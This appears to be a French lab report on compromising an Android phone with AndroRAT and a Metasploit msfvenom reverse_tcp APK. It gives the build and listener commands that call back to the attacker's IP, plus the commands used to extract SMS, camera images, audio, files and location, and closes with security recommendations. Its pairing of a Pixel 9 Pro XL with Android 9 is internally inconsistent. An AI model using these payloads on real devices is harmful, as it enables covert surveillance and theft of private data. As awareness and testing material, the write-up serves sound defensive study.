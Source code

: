 # Attaques sur Android

## 📌 Informations Générales
- **Date de l'attaque** : 23/01/2025
- **Système cible** : Android
- **Modèle du téléphone** : Pixel 9 Pro XL
- **Version Android** : Pie android 9.0
- **Adresse IP de l'attaquant** : 10.3.219.27
- **Adresse IP de la victime** : 192.168.232.2

---
---
# I. Rapport d'Attaque avec AndroRAT

## 🎯 Objectif de l'attaque
L'objectif de cette attaque était de tester la compromission d'un appareil Android à l'aide de **AndroRAT**, un Remote Access Trojan (RAT) permettant d'obtenir un contrôle total sur l'appareil cible.



## 🛠️ Méthodologie
### 1️⃣ Génération de l'APK Malveillant
Commande utilisée :
```
python3 androRAT.py --build -i 10.3.219.27 -p 4444 test1.apk
```

### 2️⃣ Installation et Exécution de l'APK
- L'APK a été transférée et installée sur le téléphone cible via un serveur HTTP.
- Une fois lancée, l'application a établi une connexion avec la machine attaquante.

### 3️⃣ Prise de Contrôle et Extraction des Données
Une fois connecté, les commandes suivantes ont été exécutées :

#### 📩 Accès aux Messages SMS
```
getSMS sent
getSMS inbox
```
- Extraction et affichage de tous les SMS stockés sur l’appareil.

![sms](sms_resultat.png)

#### 📷 Accès à la Caméra
```
camList

takepic 0
takepic 1
```
- Capture d'images via la caméra avant/arrière.

![sms](image_result.png)

#### 🎙️ Enregistrement Audio
```
startAudio
stopAudio
```
- Activation du microphone et enregistrement audio.

![sms](audio_result.png)

#### 📂 Accès aux Fichiers Stockés
```bash
file list /sdcard
```
- Exploration des fichiers enregistrés sur l’appareil.

#### 📍 Géolocalisation de l’Appareil
```
getLocation
```
- Récupération des coordonnées GPS en temps réel.

![sms](location.png)

---
---

# II. Rapport d'Attaque via Metasploit (Payload APK)
## 🎯 Objectif de l'attaque
L'objectif de cette attaque était de tester la compromission d'un appareil Android à l'aide d'un payload APK malveillant généré et exploité via **Metasploit Framework**, permettant d'obtenir un contrôle distant sur l'appareil cible.


## 🛠️ Méthodologie
### 1️⃣ Génération de l'APK Malveillant
Commande utilisée pour générer le payload :
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.3.219.27 LPORT=4445 R > payload.apk
```
- **LHOST** : Adresse IP de l'attaquant.
- **LPORT** : Port d'écoute sur la machine attaquante.

### 2️⃣ Installation et Exécution de l'APK
- L'APK a été transféré et installé sur le téléphone cible via un serveur HTTP local.
- Une fois lancée, l'application a établi une connexion avec la machine attaquante.

### 3️⃣ Configuration de Metasploit pour la Connexion
Commande utilisée pour configurer l'écouteur :
```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.3.219.27
set LPORT 4445
exploit
```
Une session **meterpreter** a été ouverte avec succès une fois que l'APK a été exécuté.

![sms](metasploit.png)
---

## 📝 Résultats des Attaques
| Fonctionnalité | Résultat |
|--------------|---------|
| Accès aux SMS | ✅ Succès |
| Accès à la caméra | ✅ Succès (Images capturées) |
| Enregistrement audio | ✅ Succès (Fichier audio enregistré) |
| Accès aux fichiers | ✅ Succès (Exploration et extraction) |
| Géolocalisation | ✅ Succès (Coordonnées GPS obtenues) |
## 🔐 Recommandations de Sécurité
- **Ne pas installer d’APK provenant de sources inconnues.**
- **Restreindre les permissions des applications non fiables.**
- **Utiliser un antivirus pour analyser les applications avant installation.**
- **Garder Android et les applications à jour pour corriger les vulnérabilités.**
- **Activer Google Play Protect pour détecter les comportements suspects.**

---

## 📌 Conclusion
Ces différentes attaques ont permis de démontrer la facilité avec laquelle un appareil Android peut être compromis si l'utilisateur ne suit pas les bonnes pratiques de sécurité. Ce test souligne l'importance d'une sensibilisation accrue aux cybermenaces sur mobile.


